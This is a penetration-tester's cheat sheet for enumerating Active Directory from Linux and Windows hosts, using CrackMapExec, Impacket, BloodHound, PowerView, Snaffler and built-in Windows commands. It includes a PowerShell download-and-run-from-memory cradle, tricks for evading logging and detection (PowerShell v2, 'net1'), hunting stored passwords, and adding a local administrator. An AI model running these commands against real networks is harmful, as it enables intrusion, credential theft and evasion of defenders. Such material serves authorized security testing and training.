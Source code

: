 ### Content
1. [From Linux Host](#from-linux-host)
	- [Crackmapexec or NetExec](#crackmapexec-or-netexec)
	- [SMBMap](#smbmap)
	- [rpcclient](#rpcclient)
	- [Impacket Toolkit](#impacket-toolkit)
	- [Windapsearch](#windapsearch)
	- [BloodHound](#bloodhound)
2. [From Windows Host](#from-windows-host)
	- [ActiveDirectory Module](#activedirectory-module)
	- [PowerView](#powerview)
	- [Snaffler](#snaffler)
3. [Living Off the Land](#living-off-the-land)
	- [Basic Enumeration](#basic-enumeration)
	- [Network Enumeration](#network-enumeration)
	- [WMI](#wmi)
	- [NET](#net)
	- [Dsquery](#dsquery)
---
# From Linux Host

#### Crackmapexec or NetExec  
``` bash
# Domain User Enumeration (retrieve a list of all domain users).
$ sudo crackmapexec smb 172.16.5.5 -u username -p password --users
# List of domain groups.
$ sudo crackmapexec smb 172.16.5.5 -u username -p password --groups
# List logged on users
$ sudo crackmapexec smb 172.16.5.130 -u username -p password --loggedon-users
# Shares enumeartion
$ sudo crackmapexec smb 172.16.5.5 -u username -p password --shares
	# The module spider_plus will dig through each readable share on the host and list all readable files.
	$ sudo crackmapexec smb 172.16.5.5 -u username -p password -M spider_plus --share 'Department Shares'
	# When completed, CME writes the results to a JSON file located at /tmp/cme_spider_plus/<ip of host>.
```

#### SMBMap
``` bash
# Shares enumeartion
$ smbmap -u username -p password -d DOMAIN.LOCAL -H 172.16.5.5
	# Recursive List Of All Directories
	$ smbmap -u username -p password -d DOMAIN.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only
```

#### rpcclient
``` bash
# Abuse SMB NULL session
$ rpcclient -U "" -N 172.16.5.5
# Enumerate all usernames after logging in with credentials or abusing the SMB NULL session
rpcclient $> enumdomusers
user:[administrator] rid:[0x1f4]
user:[guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
# Enumerate specific user
rpcclient $> queryuser 0x1f4
```

#### Impacket Toolkit
``` bash
# To connect to a host with psexec.py, we need credentials for a user with local administrator privileges.
# psexec.py utilizes an interactice shell
$ psexec.py domain.local/username:'password'@IP

# Wmiexec.py utilizes a semi-interactive shell
# This is a more stealthy approach
$wmiexec.py domain.local/username:'password'@IP 
```

#### Windapsearch
``` bash
# Enumerate domain admins group members
$ python3 windapsearch.py --dc-ip 172.16.5.5 -u user@domain.local -p password --da
# Find privileged users
$ python3 windapsearch.py --dc-ip 172.16.5.5 -u user@domain.local -p password -PU
```

#### BloodHound
[BloodHound Cypher Cheatsheet](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)
``` bash
$ sudo bloodhound-python -u 'username' -p 'password' -ns DC-IP -d domain.local -c all

$ ls
20220307163102_computers.json  20220307163102_domains.json  20220307163102_groups.json  20220307163102_users.json 

$ zip -r file.zip *.json

# sudo neo4j start to start the neo4j service
# go to localhost:7474 to set a username and a password
# user == neo4j / pass == root
# open bloodhound and clikc on upload data and select the zip file
```

---
# From Windows Host
#### ActiveDirectory Module
[ActiveDirectory PowerShell module ](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps)
``` Powershell
# Check whether the module is imported and import it if not
PS C:\Users> get-module
# Import it if it's not imported
PS C:\Users> import-module ActiveDirectory
# Get Domain Info
PS C:\Users> Get-ADDomain
# filtering for accounts with the ServicePrincipalName property populated.
# This will get us a listing of accounts that may be susceptible to a Kerberoasting attack
PS C:\Users> Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
# Checking for any trust relationships the domain has
PS C:\Users> Get-ADTrust -Filter *
# Group Enumeration
PS C:\Users> Get-ADGroup -Filter * | select name
# Get more detailed information about a particular group
PS C:\Users> Get-ADGroup -Identity "Group Name from above"
# Get a member listing from the group above
PS C:\Users> Get-ADGroupMember -Identity "Group Name from above"
```

#### PowerView
[PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)
``` Powershell
# Information of a specific user in a specific domain
PS C:\Users> Get-DomainUser -Identity mmorgan -Domain inlanefreight.local
# Information of all users in a domain
PS C:\Users> Get-DomainUser -Domain inlanefreight.local
# Enumerate a domain group members and also list it's nested groups members of there was any
PS C:\Users> Get-DomainGroupMember -Identity "Domain Admins" -Recurse
# Trust Enumeration
PS C:\Users> Get-DomainTrustMapping
# Testing for Local Admin Access on a specific machine (current or remote machine).
PS C:\Users> Test-AdminAccess -ComputerName ACADEMY-EA-MS01
# Check for users with the SPN attribute set (may be subjected to a Kerberoasting attack).
PS C:\Users> Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName

# SharpView .NET port of PowerView. Many of the same functions supported by PowerView can be used with SharpView.
# type a method name with `-Help` to get an argument list.
PS C:\Users> .\SharpView.exe Get-DomainUser -Help
# Enumerate information about a specific user
PS C:\Users> .\SharpView.exe Get-DomainUser -Identity forend
# SharpView can be more beneficial in an environment hardened against powershell usage. 
```

#### Snaffler
[Snaffler](https://github.com/SnaffCon/Snaffler) is a tool that can help us acquire credentials or other sensitive data in an Active Directory environment.
works by obtaining a list of hosts within the domain and then enumerating those hosts for shares and readable directories.
Once that is done, it iterates through any directories readable by our user and hunts for files that could serve to better our position within the assessment.
``` Powershell
PS C:\Users> Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data
```
---
# Living Off the Land
The techniques here for testing AD environment from a managed `Windows` host with no internet access, and all efforts to load tools onto it have failed.
#### Basic Enumeration

| **Command**                                                                                                                | **Result**                                                                                                                                                                                                                                    |
| -------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hostname`                                                                                                                 | Prints the PC's Name                                                                                                                                                                                                                          |
| `[System.Environment]::OSVersion.Version`                                                                                  | Prints out the OS version and revision level                                                                                                                                                                                                  |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn`                                                                    | Prints the patches and hotfixes applied to the host                                                                                                                                                                                           |
| `ipconfig /all`                                                                                                            | Prints out network adapter state and configurations                                                                                                                                                                                           |
| `set`                                                                                                                      | Displays a list of environment variables for the current session (ran from CMD-prompt)                                                                                                                                                        |
| `echo %USERDOMAIN%`                                                                                                        | Displays the domain name to which the host belongs (ran from CMD-prompt)                                                                                                                                                                      |
| `echo %logonserver%`                                                                                                       | Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)                                                                                                                                                    |
| [systeminfo](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/systeminfo)                   | Print a summary of the host's information for us in one tidy output.                                                                                                                                                                          |
| `Get-Module`                                                                                                               | Lists available modules loaded for use.                                                                                                                                                                                                       |
| `Get-ExecutionPolicy -List`                                                                                                | Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) settings for each scope on a host.                                         |
| `Set-ExecutionPolicy Bypass -Scope Process`                                                                                | This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| `Get-ChildItem Env: \| ft Key,Value`                                                                                       | Return environment values such as key paths, users, computer information, etc.                                                                                                                                                                |
| `Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`                                 | With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.                       |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` | This is a quick and easy way to download a file from the web using PowerShell and call it from memory.                                                                                                                                        |
| `Get-host`                                                                                                                 | Print information about the current PowerShell session.                                                                                                                                                                                       |
| `powershell.exe -version 2`                                                                                                | Change the PowerShell version to a version that has no logging feature if available.                                                                                                                                                          |
| `netsh advfirewall show allprofiles`                                                                                       | [netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts) utility will help us to see the state of the Windows firewall settings and check the status of the Windows defender.                    |
| `sc query windefend`                                                                                                       | Windows Defender Check (from CMD.exe)                                                                                                                                                                                                         |
| `Get-MpComputerStatus`                                                                                                     | Check Windows defender status and configuration settings                                                                                                                                                                                      |
| `qwinsta`                                                                                                                  | (Query WINdows STAtion) shows current sessions on the host.                                                                                                                                                                                   |

#### Network Enumeration
| **Networking Commands**              | **Description**                                                                                                  |
| ------------------------------------ | ---------------------------------------------------------------------------------------------------------------- |
| `arp -a`                             | Lists all known hosts stored in the arp table.                                                                   |
| `ipconfig /all`                      | Prints out adapter settings for the host. We can figure out the network segment from here.                       |
| `route print`                        | Displays the routing table (IPv4 & IPv6) identifying known networks and layer three routes shared with the host. |
| `netsh advfirewall show allprofiles` | Displays the status of the host's firewall. We can determine if it is active and filtering traffic.              |

#### WMI
[Windows Management Instrumentation (WMI)](https://docs.microsoft.com/en-us/windows/win32/wmisdk/about-wmi)
This [cheatsheet](https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4) has some useful commands for querying host and domain info using wmic.

| **Command**                                                                              | **Description**                                                                                                      |
| ---------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------- |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn`                                  | Prints the patch level and description of the Hotfixes applied                                                       |
| `wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List`     | Displays basic host information to include any attributes within the list                                            |
| `wmic process list /format:list`                                                         | A listing of all processes on host                                                                                   |
| `wmic ntdomain list /format:list`                                                        | Displays information about the Domain and Domain Controllers                                                         |
| `wmic useraccount list /format:list`                                                     | Displays information about all local accounts and any domain accounts that have logged into the device               |
| `wmic group list /format:list`                                                           | Information about all local groups                                                                                   |
| `wmic sysaccount list /format:list`                                                      | Dumps information about any system accounts that are being used as service accounts.                                 |
| `wmic ntdomain get Caption,Description,DnsForestName,DomainName,DomainControllerAddress` | Information about the domain and the child domain, and the external forest that our current domain has a trust with. |

#### NET
[Net](https://docs.microsoft.com/en-us/windows/win32/winsock/net-exe-2)

| **Command**                                     | **Description**                                                                                                              |
| ----------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| `net accounts`                                  | Information about password requirements                                                                                      |
| `net accounts /domain`                          | Password and lockout policy                                                                                                  |
| `net group /domain`                             | Information about domain groups                                                                                              |
| `net group "Domain Admins" /domain`             | List users with domain admin privileges                                                                                      |
| `net group "domain computers" /domain`          | List of PCs connected to the domain                                                                                          |
| `net group "Domain Controllers" /domain`        | List PC accounts of domains controllers                                                                                      |
| `net group <domain_group_name> /domain`         | User that belongs to the group                                                                                               |
| `net groups /domain`                            | List of domain groups                                                                                                        |
| `net localgroup`                                | All available groups                                                                                                         |
| `net localgroup administrators /domain`         | List users that belong to the administrators group inside the domain (the group `Domain Admins` is included here by default) |
| `net localgroup Administrators`                 | Information about a group (admins)                                                                                           |
| `net localgroup administrators [username] /add` | Add user to administrators                                                                                                   |
| `net share`                                     | Check current shares                                                                                                         |
| `net user <ACCOUNT_NAME> /domain`               | Get information about a user within the domain                                                                               |
| `net user /domain`                              | List all users of the domain                                                                                                 |
| `net user /domain username`                     | Information about a domain user                                                                                              |
| `net user %username%`                           | Information about the current user                                                                                           |
| `net use x: \computer\share`                    | Mount the share locally                                                                                                      |
| `net view`                                      | Get a list of computers                                                                                                      |
| `net view /all /domain[:domainname]`            | Shares on the domains                                                                                                        |
| `net view \computer /ALL`                       | List shares of a computer                                                                                                    |
| `net view /domain`                              | List of PCs of the domain                                                                                                    |

> [!Important]
> If you believe the network defenders are actively logging/looking for any commands out of the normal, you can try this workaround to using net commands. Typing `net1` instead of `net` will execute the same functions without the potential trigger from the net string.
> 
> `net view` --> `net1 view`

#### Dsquery
[Dsquery](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc732952(v=ws.11)) will exist on any host with the `Active Directory Domain Services Role` installed, and the `dsquery` DLL exists on all modern Windows systems by default now and can be found at `C:\Windows\System32\dsquery.dll`.

All we need is `elevated privileges` on a host or the ability to run an instance of Command Prompt or PowerShell from a `SYSTEM` context.

[dsquery wildcard search](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754232(v=ws.11))

``` PowerShell
# User Search
PS C:\> dsquery user
# Computer Search
PS C:\> dsquery computer
# dsquery wildcard search to view all objects in an OU.
PS C:\> dsquery * "CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
```

Combine `dsquery` with LDAP filters.
``` PowerShell
# Users With Specific Attributes Set (PASSWD_NOTREQD) -> password not required
PS C:\> dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl

# Look for all Domain Controllers in the current domain, limiting to five results.
PS C:\> dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
```

- `-filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)"`
	- `userAccountControl:1.2.840.113556.1.4.803:` Specifies that we are looking at the [User Account Control (UAC) attributes](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) for an object.
		- This portion can change to include three different values when searching for information in AD (also known as [Object Identifiers (OIDs)](https://ldap.com/ldap-oid-reference-guide/).
			- `1.2.840.113556.1.4.803` --> When using this rule, we are saying the bit value must match completely to meet the search requirements.
			- `1.2.840.113556.1.4.804` --> When using this rule, we are saying that we want our results to show any attribute match if any bit in the chain matches.
			- `1.2.840.113556.1.4.1941` --> This rule is used to match filters that apply to the Distinguished Name of an object and will search through all ownership and membership entries.
	- `=8192` represents the decimal bitmask we want to match in this search.


#### userAccountControl Values

| Property flag                  | Value in hexadecimal | Value in decimal |
| ------------------------------ | -------------------- | ---------------- |
| SCRIPT                         | 0x0001               | 1                |
| ACCOUNTDISABLE                 | 0x0002               | 2                |
| HOMEDIR_REQUIRED               | 0x0008               | 8                |
| LOCKOUT                        | 0x0010               | 16               |
| PASSWD_NOTREQD                 | 0x0020               | 32               |
| PASSWD_CANT_CHANGE             | 0x0040               | 64               |
| ENCRYPTED_TEXT_PWD_ALLOWED     | 0x0080               | 128              |
| TEMP_DUPLICATE_ACCOUNT         | 0x0100               | 256              |
| NORMAL_ACCOUNT                 | 0x0200               | 512              |
| INTERDOMAIN_TRUST_ACCOUNT      | 0x0800               | 2048             |
| WORKSTATION_TRUST_ACCOUNT      | 0x1000               | 4096             |
| SERVER_TRUST_ACCOUNT           | 0x2000               | 8192             |
| DONT_EXPIRE_PASSWORD           | 0x10000              | 65536            |
| MNS_LOGON_ACCOUNT              | 0x20000              | 131072           |
| SMARTCARD_REQUIRED             | 0x40000              | 262144           |
| TRUSTED_FOR_DELEGATION         | 0x80000              | 524288           |
| NOT_DELEGATED                  | 0x100000             | 1048576          |
| USE_DES_KEY_ONLY               | 0x200000             | 2097152          |
| DONT_REQ_PREAUTH               | 0x400000             | 4194304          |
| PASSWORD_EXPIRED               | 0x800000             | 8388608          |
| TRUSTED_TO_AUTH_FOR_DELEGATION | 0x1000000            | 16777216         |